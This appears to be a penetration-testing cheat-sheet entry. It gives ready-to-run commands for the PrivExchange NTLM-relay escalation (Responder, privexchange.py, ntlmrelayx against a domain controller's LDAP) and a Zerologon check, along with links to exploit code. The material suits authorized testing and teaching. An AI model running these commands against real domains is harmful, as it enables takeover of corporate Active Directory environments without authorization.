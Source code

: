 


## PrivExchange

**CVE-2019-0686, CVE-2019-0724**

* [https://github.com/dirkjanm/PrivExchange](https://github.com/dirkjanm/PrivExchange)
* [https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)

Check:

* [https://twitter.com/\_wald0/status/1091062691383238656](https://twitter.com/_wald0/status/1091062691383238656)

```
$ sudo ./Responder.py -I eth0 -Av
$ python privexchange.py -d MEGACORP -u snovvcrash -p 'Passw0rd!' -ah 10.10.13.37 --attacker-page '/test/test/test' exch01.megacorp.local --debug
```

Exploit:

```
$ sudo ntlmrelayx.py -t ldap://DC01.megacorp.local --escalate-user snovvcrash
$ python privexchange.py -d MEGACORP -u snovvcrash -p 'Passw0rd!' -ah 10.10.13.37 exch01.megacorp.local --debug
```




## Zerologon

**CVE-2020-1472**

* [https://www.secura.com/uploads/whitepapers/Zerologon.pdf](https://www.secura.com/uploads/whitepapers/Zerologon.pdf)
* [https://twitter.com/\_dirkjan/status/1306280566313156608](https://twitter.com/_dirkjan/status/1306280566313156608)

Check:

* [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

```
$ ./zerologon_tester.py DC01 10.10.13.38
```

Exploit:

* [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)
* [https://github.com/blackarrowsec/redteam-research/tree/master/CVE-2020-1472](https://github.com/blackarrowsec/redteam-research/tree/master/CVE-2020-1472)

Exploits above **will break the domain!** Use this technique by @dirkjanm to abuse Zerologon safely:

* [https://dirkjanm.io/a-different-way-of-abusing-zerologon/](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)
